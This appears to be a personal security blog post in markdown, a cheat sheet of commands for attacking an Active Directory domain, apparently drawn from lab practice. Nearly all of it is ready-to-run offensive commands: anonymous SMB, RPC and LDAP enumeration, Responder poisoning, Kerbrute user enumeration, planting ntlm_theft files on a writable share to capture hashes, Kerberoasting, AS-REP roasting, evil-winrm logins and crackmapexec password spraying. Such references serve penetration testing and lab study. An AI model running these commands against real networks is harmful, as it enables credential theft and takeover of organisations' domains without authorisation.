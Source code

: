 ```yaml
---
layout: post
title: Active Directory Enumeration
date: '2023-11-13 05:53:29 +0300'
image: /assets/img/cover_images/44.png
categories: [Active Directory, Enumeration]
---
```


## Enumeration with No creds
### Smb enumeration
```bash
smbmap -H <ip>
```
```bash
smbmap -u 'guest' -p '' -H <ip>
```
```bash
smbclient -L <ip> -u ''
```
```bash
smbclient //<ip>/<share> -c 'recurse;ls'
```
### Rpc enumeration
```bash
rpcclient -U '' -N <ip>
enumdomusers
```
### Ldap enumeration
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 <ip>
```
```bash
ldapsearch -H ldap://<ip> -x -s base namingcontext
```
```bash
ldapsearch -H ldap://<ip> -x -b"DC=htb,DC=local"
```
### Network poisoning
```bash
responder -I eth0 -A
```
### Extract possible usernames
```
NameSurname
Name.Surname
NamSur
Nam.Sur
NSurname
N.Surname
SurnameName
Surname.Name
SurnameN
Surname.N
```
### Kerbrute
```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.real='test.local', userdb=usernames.txt <ip>
```
```bash
kerbrute userenum --dc 10.10.10.100 -d test.local usernames.txt
```
### NTLM Creds
```bash
sudo mount -t cifs -o 'user=pl4int3xt' //10.10.10.100/Department /mnt/sync
```
```bash
ls /mnt/sync -laR
```
[smcacls documentation](https://lists.samba.org/archive/samba-technical/2010-June/071390.html)
```bash
for i in $(ls /mnt/sync); do echo; smbcacls --no-pass //10.10.10.100/Department $i
```
[ntlm theft](https://github.com/Greenwolf/ntlm_theft)
```bash
responder -I tun0
```
```bash
python3 ntlm_theft.py -g all -s 10.10.10.100 -f test
```
```bash
cp test/* /mnt/sync/writable_share 
```
## Enumerating with creds
### Kerberoasting
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 <DOMAIN.FULL>/<USERNAME> -outputfile hashes
```
### ASREPRoast
```bash
GetNPUsers.py -userfilr users.txt -dc-ip <ip> --outputfile ASREPHash -request '<domain>/'
```
### Getusers
```bash
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
```
### Crackmapexec
```bash
crackmapexec winrm -u test -p test --continue-on-success 10.10.10.100
```
```bash
crackmapexec smb --local-auth 10.10.10.10/23 -u user -H hash 
```
```bash
evil-winrm -i 10.10.10.100 -u test -p password123
```
### Password spray
```bash
crackmapexec smb 10.10.10.10/23 -u userlist -p userlist --continue-on-success 
```
```bash
crackmapexec smb 10.10.10.10/23 -u userlist -p 'PassworSpray' --continue-on-success 
```